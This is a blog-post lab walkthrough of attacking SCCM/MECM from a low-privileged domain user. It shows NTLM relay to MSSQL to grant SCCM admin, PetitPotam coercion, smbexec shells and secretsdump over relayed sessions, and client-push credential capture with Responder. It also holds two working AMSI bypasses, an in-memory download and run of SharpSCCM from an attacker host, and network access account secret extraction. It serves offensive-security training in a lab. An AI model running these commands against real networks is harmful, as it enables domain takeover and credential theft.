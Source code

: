 ```yaml
---
layout: post
title:  "SCCM / MECM LAB - Part 0x2 - Low user"
category : [AD, SCCM]
tags :  AD, SCCM
---
```


On the previous post ([SCCM LAB part 0x1]({% link _posts/2024-03-28-SCCM-LAB-part0x1.md %})) we started the recon and exploit the PXE feature.
On this part we will start SCCM exploitation with low user credentials.

# Exploit with low user
## Takeover 1 - relay to mssql (low user -> mssql server admin)

- A super cool technic by default on mecm when the database is separate of the site server is that the server site is necessary sysadmin of the database. We can use it to relay the MECM$ computer to the MSSQL server database.
- Details : [Takeover-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-1/takeover-1_description.md)

- [sccmhunter](https://github.com/garrettfoster13/sccmhunter) will do the coffee for that by giving us the query we need to relay !

```bash
python3 sccmhunter.py mssql -u carol -p SCCMftw -d sccm.lab -dc-ip 192.168.33.10 -debug -tu carol -sc P01 -stacked
```
![sccm_hunter_relay_mssql.png](/assets/blog/SCCM/sccm_hunter_relay_mssql.png)

- Prepare the relay with the mssql query from the previous command

```bash
ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -q "USE CM_P01; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000680D6A08DCF1872FCE3F29425A040000,'SCCMLAB\carol',0,0,'','','','','P01');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00004','1');"
```

- Launch petitpotam (or another coerce) :

```bash
petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11
```

![sccm_hunter_relay_mssql_petipotam.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_petipotam.png)

- And our low user become MECM admin \o/

![sccm_hunter_relay_mssql2.png](/assets/blog/SCCM/sccm_hunter_relay_mssql2.png)

- As a proof let's connect as admin with sccmhunter

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 

() C:\ >> show_admins
```

![sccm_hunter_relay_mssql_new_admin.png](/assets/blog/SCCM/sccm_hunter_relay_mssql_new_admin.png)


## Takeover-2 - Relay to SMB on remote DB (low user -> mecm admin account)

- Microsoft impose the computer account of the site server to be admin on the mssql server
- By knowing that you can simply coerce MECM to MSSQL computer and get the hashes
- Details : [Takeover-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)


- prepare the relay to the mssql server

```bash
ntlmrelayx -t 192.168.33.12 -smb2support -socks
```

- launch the coerce with petitpotam

```bash
petitpotam.py -d sccm.lab -u sccm-naa -p 123456789 192.168.33.1 192.168.33.11
```

![sccm_relay_to_mssql_smb.png](/assets/blog/SCCM/sccm_relay_to_mssql_smb.png)

- Get a shell
```bash
proxychains -q smbexec.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```

![elevate1_smbexec.png](/assets/blog/SCCM/elevate1_smbexec.png)

- Get the sam
```bash
proxychains -q secretsdump.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```

![elevate1_sam.png](/assets/blog/SCCM/elevate1_sam.png)


## Elevate-2 - Relay Client Push Installation (low user -> client push account)

- Client push if fallback to ntlm is enabled
- Details : [Elevate-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)
- As we can't do that from linux we will use [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) to do that.
- Let's connect with a low user like `sccm.lab\franck:rockme` to CLIENT$
- Compile and put SharpSCCM_merged.exe into a folder on your attack machine (servir it with `python3 -m http.server 8888`)
- Launch a responder in you attack vm (`Responder.py -I vmnet6`)

- On CLIENT$ do AMSI bypass on powershell level

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

- Next run the rastamouse's AMSI bypass to disable AMSI for csharp too

```powershell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- And then launch SharpSCCM in memory

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.33.1:8888/SharpSCCM_merged.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

![sccm_client_push.png](/assets/blog/SCCM/sccm_client_push.png)

- A few moment later on responder, the client-push account (local admin of sccm client !) and the MECM$ computer account (admin of at least the mssql server)

![sccm_client_push_responder.png](/assets/blog/SCCM/sccm_client_push_responder.png)

- Now we have confirmation of the account involve let's relay to mssql server
- Prepare the relay :

```bash
ntlmrelayx.py -t 192.168.33.12  -smb2support -socks
```

- relaunch the client push
```powershell
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

- And get a shell with the relay

```bash
proxychains -q smbexec.py -no-pass SCCM.LAB/SCCM-CLIENT-PUSH@192.168.33.12
```
![sccm_client_push_relay_smb.png](/assets/blog/SCCM/sccm_client_push_relay_smb.png)


> Warning this will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![unexpected_devices.png](/assets/blog/SCCM/unexpected_devices.png)
{: .prompt-warning }

## Cred-2 - Policy Request Credentials - Computer account get secrets of NAA (computer account -> naa account)

- Add a computer:

```bash
addcomputer.py -computer-name 'exegol$' -computer-pass 'maytheforcebewithyou' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10
```

![sccm_add_computer.png](/assets/blog/SCCM/sccm_add_computer.png)

### from linux
- details [here](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)

- Add this line in your `/etc/hosts`

```
192.168.33.11 MECM MECM.SCCM.LAB
```

- From linux use SCCMWTF

```bash
python3 sccmwtf.py fake fakepc.sccm.lab MECM 'SCCMLAB\exegol$' 'maytheforcebewithyou'
```

![sccm_wtf.png](/assets/blog/SCCM/sccm_wtf.png)

- Creds are in naapolicy.xml

![naapolicy.xml.png](/assets/blog/SCCM/naapolicy.xml.png)

- And xpn also write the python script to decipher the result <3

```bash
cat /tmp/naapolicy.xml |grep 'NetworkAccessUsername\|NetworkAccessPassword' -A 5 |grep -e 'CDATA' | cut -d '[' -f 3|cut -d ']' -f 1| xargs -I {} python3 policysecretunobfuscate.py {}
```

![sccmwtf_decipher.png](/assets/blog/SCCM/sccmwtf_decipher.png)

> Warning this one also will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![dirtu_sccmwtf.png](/assets/blog/SCCM/dirtu_sccmwtf.png)
{: .prompt-warning }


### from windows

- Details [here](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)
- From windows launch the get secrets command

```bash
[SharpSCCM.Program]::Main("get secrets -r newcomputer -u exegol$ -p maytheforcebewithyou".split());
```

![sharpsccm_getnaa.png](/assets/blog/SCCM/sharpsccm_getnaa.png)

> Careful this one also create artifact in the client console
> ![dirty_naa_retreive.png](/assets/blog/SCCM/dirty_naa_retreive.png)
{: .prompt-warning }

